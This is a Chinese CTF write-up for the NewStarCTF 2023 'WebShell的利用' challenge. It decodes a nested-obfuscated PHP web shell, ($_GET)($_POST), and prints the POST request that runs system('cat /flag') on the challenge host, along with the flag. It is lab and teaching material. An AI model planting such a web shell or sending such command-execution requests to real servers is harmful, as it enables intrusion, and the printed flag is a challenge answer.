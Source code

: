 ```yaml
---
tags:
  - BuuCTF
  - 简单
  - 解码
  - WebShell
---
```


# \[NewStarCTF 2023\] WebShell的利用

> 这是一道 Misc & Web 的融合题

## 前置工作

下载 `index.php` 附件，发现形如 `str_rot13(convert_uudecode(str_rot13(base64_decode($txt))));` 的内容，手动解码，发现是个套娃，所以可以编写如下脚本

```php
<?php
$text = "xxxxxx"; // index.php 中的那一大串，把开头的 <?php 手动去掉

function operate($txt) {
    return str_rot13(convert_uudecode(str_rot13(base64_decode($txt))));
}

for ($i=0; $i<10; $i++) {
    $array = explode("('", $text);
    $array = explode("')", $array[1]);
    $text = operate($array[0]);
}

echo $text;
```

最后得出的结果是

```
error_reporting(0);($_GET['7d67973a'])($_POST['9fa3']);
```

## 编写 Http 请求

如上可知这是一个 PHP 中函数的链式调用，其中 `$_GET['7d67973a']` 传入的是函数名（如 `system`），而 `$_POST['9fa3']` 是函数的参数（比如 `cat /flag`），于是我们可以编写如下 Http 请求

```http
POST /?7d67973a=system HTTP/1.1
Host: 11cf285b-1978-495b-8aae-a39aad62fbc6.node4.buuoj.cn:81
User-Agent: Apifox/1.0.0 (https://apifox.com)
Accept: */*
Host: 11cf285b-1978-495b-8aae-a39aad62fbc6.node4.buuoj.cn:81
Connection: keep-alive
Content-Length: 18

9fa3=cat%20%2Fflag
```

最后可以得出 Flag 为 `flag{0321a282-0a95-4669-bbf2-1021ed0c1ebc}`